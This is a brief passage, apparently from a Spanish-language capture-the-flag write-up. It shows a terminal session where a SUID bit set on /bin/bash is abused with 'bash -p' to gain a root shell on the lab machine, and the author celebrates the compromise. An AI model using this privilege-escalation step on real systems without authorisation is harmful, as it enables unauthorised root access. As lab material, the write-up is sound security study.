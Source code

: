 ```bash

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu May  4 08:14:47 2023 from 10.10.16.42
$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
$ bash -p
bash-4.4# whoami
root
bash-4.4#
```
Y hemos conseguido pwnear la maquina!!!
